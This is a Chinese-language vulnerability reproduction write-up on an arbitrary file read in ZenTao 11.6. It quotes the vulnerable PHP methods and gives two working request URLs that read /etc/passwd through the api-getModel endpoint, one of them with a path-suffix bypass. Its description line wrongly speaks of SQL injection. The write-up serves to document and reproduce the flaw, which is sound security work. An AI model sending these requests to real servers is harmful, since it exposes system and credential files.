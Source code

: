 # 禅道 11.6 api-getModel-api-getMethod-filePath 任意文件读取漏洞

# 禅道 11.6 api-getModel-api-getMethod-filePath 任意文件读取漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 漏洞影响

```
禅道 11.6
```

## 环境搭建

这里使用docker环境搭建

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 [**http://xxx.xxx.xxx.xxx:8084**](http://xxx.xxx.xxx.xxx:8084) 按步骤安装即可

![](/images/202202162306063.png)

## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

### 第一种方法

查看**module/file/moudel.php**下的**parseCSV方法**

```php
public function parseCSV($fileName)
    {
        $content = file_get_contents($fileName);
        /* Fix bug #890. */
        $content = str_replace("\x82\x32", "\x10", $content);
        $lines   = explode("\n", $content);

        $col  = -1;
        $row  = 0;
        $data = array();
        foreach($lines as $line)
        {
            $line    = trim($line);
            $markNum = substr_count($line, '"') - substr_count($line, '\"');
            if(substr($line, -1) != ',' and (($markNum % 2 == 1 and $col != -1) or ($markNum % 2 == 0 and substr($line, -2) != ',"' and $col == -1))) $line .= ',';
            $line = str_replace(',"",', ',,', $line);
            $line = str_replace(',"",', ',,', $line);
            $line = preg_replace_callback('/(\"{2,})(\,+)/U', array($this, 'removeInterference'), $line);
            $line = str_replace('""', '"', $line);

            /* if only one column then line is the data. */
            if(strpos($line, ',') === false and $col == -1)
            {
                $data[$row][0] = trim($line, '"');
            }
            else
            {
                /* if col is not -1, then the data of column is not end. */
                if($col != -1)
                {
                    $pos = strpos($line, '",');
                    if($pos === false)
                    {
                        $data[$row][$col] .= "\n" . $line;
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                        continue;
                    }
                    else
                    {
                        $data[$row][$col] .= "\n" . substr($line, 0, $pos);
                        $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                        $line = substr($line, $pos + 2);
                        $col++;
                    }
                }

                if($col == -1) $col = 0;
                /* explode cols with delimiter. */
                while($line)
                {
                    /* the cell has '"', the delimiter is '",'. */
                    if($line{0} == '"')
                    {
                        $pos  = strpos($line, '",');
                        if($pos === false)
                        {
                            $data[$row][$col] = substr($line, 1);
                            /* if line is not empty, then the data of cell is not end. */
                            if(strlen($line) >= 1) continue 2;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 1, $pos - 1);
                            $line = substr($line, $pos + 2);
                        }
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                    }
                    else
                    {
                        /* the delimiter default is ','. */
                        $pos = strpos($line, ',');
                        /* if line is not delimiter, then line is the data of cell. */
                        if($pos === false)
                        {
                            $data[$row][$col] = $line;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 0, $pos);
                            $line = substr($line, $pos + 1);
                        }
                    }

                    $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                    $col++;
                }
            }
            $row ++;
            $col = -1;
        }

        return $data;
    }
```

这里可以看到**以file为模块名、parseCSV为方法名去调用**读取文件

读取的文件名**$filename**参数可控，例如读取**/etc/passwd**

```plain
http://xxx.xxx.xxx.xxx/api-getModel-file-parseCSV-fileName=/etc/passwd
```

![](/images/202202162306195.png)



注意以 .php .txt 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤

### 第二种方法

查看**module/api/moudel.php**下的**getMethod方法**

```php
public function getMethod($filePath, $ext = '')
{
    $fileName  = dirname($filePath);
    $className = basename(dirname(dirname($filePath)));
    if(!class_exists($className)) helper::import($fileName);
    $methodName = basename($filePath);

    $method = new ReflectionMethod($className . $ext, $methodName);
    $data   = new stdClass();
    $data->startLine  = $method->getStartLine();
    $data->endLine    = $method->getEndLine();
    $data->comment    = $method->getDocComment();
    $data->parameters = $method->getParameters();
    $data->className  = $className;
    $data->methodName = $methodName;
    $data->fileName   = $fileName;
    $data->post       = false;

    $file = file($fileName);
    for($i = $data->startLine - 1; $i <= $data->endLine; $i++)
    {
        if(strpos($file[$i], '$this->post') or strpos($file[$i], 'fixer::input') or strpos($file[$i], '$_POST'))
        {
            $data->post = true; 
        }
    }
    return $data;
}
```

这里与第一种大同小异，只是调用了不同模块的方法

看到 fileName  = dirname(filepath) 这段则为返回的目录名

所以读取**/etc/passwd**则需要写为**/etc/passwd/1**来绕过

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```

![](/images/202202162306873.png)

